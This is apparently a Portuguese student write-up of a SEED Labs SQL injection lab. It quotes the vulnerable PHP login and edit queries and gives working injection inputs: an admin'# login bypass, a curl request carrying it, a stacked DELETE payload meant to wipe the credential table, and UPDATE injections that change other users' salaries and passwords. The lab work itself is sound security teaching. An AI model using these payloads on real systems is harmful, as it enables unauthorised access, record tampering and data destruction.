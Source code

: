# Semana 8 - SQL Injection Attack

## Task 1 - Get Familiar with SQL Statements

Após correr `show tables` no terminal do `mysql`, conseguimos observar que há 1 tabelas: **credential**<br>
Portanto, se quisermos ver todas as entries da tabela **credential**, podemos fazer:

```sql
SELECT * FROM credential;
```

O resultado é o seguinte:

![image](Semana_8/images/image.png)

Alternativamente, como o que é pedido é especificamente para o utilizador **Alice**, podemos fazer:

```sql
SELECT * FROM credential WHERE Name = "Alice";
```


## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

Para autenticar um utilizador, é utilizado o seguinte código no ficheiro `unsafe_home.php`:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

Como podemos observar, os parâmetros não são sanitizados, o que cria uma vulnerabilidade de **SQL Injection**.<br>
Devido a esta vulnerabilidade, como sabemos que o user da conta administrativa tem username `admin`, então podemos dar login com os seguintes dados

![image](Semana_8/images/image2.png)

Após submeter os dados, a seguinte query será realizada pelo servidor:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= 'admin'# and Password='$hashed_pwd'";
```

Com isto, conseguimos ser autenticados na conta do **admin**, mesmo sem saber a password.

|[image](Semana_8/images/image3.png)


### Task 2.2 - SQL Injection Attack from command line

Esta task é semelhante à anterior, mas pela command line, ou seja, temos que mandar um request utilizando o comando `curl`.<br>

Para fazer isso, inserimos o seguinte comando no terminal:

`curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="`

Neste caso, como precisamos de escapar o caracter `'` e `#` eles são representados com `%27` e `%23`, respetivamente. 

Isto vai fazer com que o servidor faça a mesma query à base de dados que fez na task anterior e temos acesso ao código html da página com a tabela **credential**.

![image](Semana_8/images/image4.png)

### Task 2.3 - Append a new SQL statement

Para tentar tornar um SQL statement em 2, podemos inserir os seguintes dados no login:

`admin'; DELETE * FROM credential; #`

Isto vai eliminar todas as entries na tabela **credential**.<br>
No entanto, quando tentamos fazer isto, recebemos a seguinte mensagem:

![image](Semana_8/images/image5.png)

Após ler a documentação, descobrimos que, para funcionar, era necessário usar-se a função `multi_query()`.

![image](Semana_8/images/image6.png)

Como é utilizada a função `query()`, o nosso ataque que tenta tornar 1 SQL statements em 2 não funciona.

## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

Após olhar para o ficheiro `unsafe_edit_backend`, notamos que, tal como para fazer login, a query à base de dados não sanitiza os parâmetros, portanto está vulnerável a ataques de SQL Injection.<br>
Embora no site não tenhamos a opção para editar o salário, com um ataque de SQL Injection isso é possível da seguinte forma:

![image](Semana_8/images/image7.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='Rua da Cedofeita', salary='1000000',Password='', PhoneNumber='' where ID=$id;"
```

No final, o perfil da Alice ficou assim:

![image](Semana_8/images/image8.png)

Como podemos observar, o salário da Alice agora é 1000000.

### Task 3.2 - Modify other people’ salary

Para mudar o salário de outra pessoa, podemos fazer um ataque semelhante ao que fizemos na task anterior, exceto que também temos que adicionar uma condição para o ID de outro utilizador.<br>

![image](Semana_8/images/image9.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='',Password='', PhoneNumber='1',salary='1' where ID=2 #where ID=$id;"
```

Após fazer `select * from credential` no terminal, conseguimos observar que o utilizador com ID = 2, o **Boby**, tem agora Phone Number = 1 e Salary = 1.

![image](Semana_8/images/image10.png)

### Task 3.3 - Modify other people’ password

Para mudar a palavra passe de outra pessoa, usamos uma técnica semelhante às anteriores, mas agora alteramos a password. Decidimos alterar a password do utilizador Boby (ID = 2) para `123`. 

![image](Semana_8/images/image11.png)

Após entrar no perfil do Boby, conseguimos ver que o Phone Number é 1

![image](Semana_8/images/image12.png)

Se formos à base de dados e fizermos `select * from credential` observamos o seguinte:

![image](Semana_8/images/image13.png)

Como podemos ver, a **password** do Boby é `40bd001563085fc35165329ea1ff5c5ecbdbbeef`, que é `123` depois de ser encriptado com criptografica sha1.